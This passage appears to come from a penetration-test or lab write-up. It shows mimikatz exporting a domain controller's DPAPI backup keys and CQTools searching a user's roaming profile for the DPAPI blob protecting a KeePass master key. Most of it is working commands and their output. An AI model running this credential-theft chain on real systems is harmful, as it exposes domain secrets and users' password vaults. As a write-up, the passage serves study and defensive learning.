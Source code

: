 Basically, we need to regain access to `Ra` and export the backup DPAPI Key

```
mimikatz # lsadump::backupkeys /system:localhost /export

Current prefered key:       {07ea03b4-3b28-4270-8862-0bc66dacef1a}
  * RSA key
        |Provider name : Microsoft Strong Cryptographic Provider
        |Unique name   :
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003f ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_EXPORT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : YES
        Private export : OK - 'ntds_capi_0_07ea03b4-3b28-4270-8862-0bc66dacef1a.keyx.rsa.pvk'
        PFX container  : OK - 'ntds_capi_0_07ea03b4-3b28-4270-8862-0bc66dacef1a.pfx'
        Export         : OK - 'ntds_capi_0_07ea03b4-3b28-4270-8862-0bc66dacef1a.der'

Compatibility prefered key: {887f3d05-3f50-4a1d-88c0-9a4b27e913c8}
  * Legacy key
92ce4fd5a55d6d7742135d325b09fd68aa0ad796fcc6eb2636663cec51a6b8fe
2a8933f4a98f7f97c303495d6579f83bd3678c65f9ffa28eca94e1d7f674bd33
90247312bf23dc6cd1ca1e1202748742dd0e80a48fb5579f5eeb4f461197f770
2033abcde34ca01f22cc5326089c1b14fbe95ef4431eabb475f7d910a53a18f9
11f0773bd40cf5382fdb0ea5c9e6fb12ad109fbd2195b71123ffc6bebd98ccfb
6034895425694257da9679081b9bc74aa0eeeaf68ace38df4bd26cf4d4100b6c
cf23bf6aef814bfcb824674b92fab623736d4f3187cbad2d0be6c893f191c8ea
eeec95d2cbe0a3149813bd02532a9f0f1f951755a7137060ffad541446333057

        Export         : OK - 'ntds_legacy_0_887f3d05-3f50-4a1d-88c0-9a4b27e913c8.key'
```

Now we are going to use two of the tool in the CQTools `CQDPAPIBlobSearcher.exe` and `CQMasterKeyAD.exe` to recreate the user DPAPI key

First we will use `CQDPAPIBlobSearcher.exe` to find the KeePass MasterKey.

```
C:\Users\chajoh\Desktop>CQDPAPIBlobSearcher.exe /d c:\users\chajoh\appdata\roaming /r /o c:\users\chajoh\Desktop
Scanning c:\users\chajoh\appdata\roaming\KeePass\KeePass.config.xml
Scanning c:\users\chajoh\appdata\roaming\KeePass\ProtectedUserKey.bin
Found 1 in c:\users\chajoh\appdata\roaming\keepass\protecteduserkey.bin
 mkguid:               a773eede-71b6-4d66-b4b8-437e01749caa
 flags:                0x0
 hashAlgo:             0x8004 (SHA1)
 cipherAlgo:           0x6603 (3DES)
 cipherText:
98 9A 82 53 43 24 EC E4 F7 F5 3A 0A 19 53 C6 89   ...SC$....:..S..
49 86 2B 18 F2 A2 01 C9 50 0E 0B 2B DC A4 1E 46   I.+.....P..+...F
C1 50 25 DC 99 B3 F7 3E B5 01 85 51 AB D9 C6 1D   .P%....>...Q....
EC 6A 9A B8 A6 98 93 DB 8A F8 6F 1B 17 E7 02 25   .j........o....%
64 95 95 8B CD 2C CD DB                           d....,..
Scanning c:\users\chajoh\appdata\roaming\Microsoft\Crypto\Keys\de7cf8a7901d2ad13e5c67c29e5d1662_b77306f1-b261-48a9-a448-d1f57a99cfde
Found 2 in c:\users\chajoh\appdata\roaming\microsoft\crypto\keys\de7cf8a7901d2ad13e5c67c29e5d1662_b77306f1-b261-48a9-a448-d1f57a99cfde
 description:          Private Key Properties
 mkguid:               575c62b8-287f-4dae-97ac-7bbe50c995fc
 flags:                0x0
 hashAlgo:             0x8004 (SHA1)
 cipherAlgo:           0x6603 (3DES)
 cipherText:
D1 4D 84 A7 84 AB F6 08 71 E7 28 38 E6 50 6A 94   .M......q.(8.Pj.
EA 1D 6B B5 A1 11 AA B2 7A E8 31 97 D8 E5 39 C7   ..k.....z.1...9.
```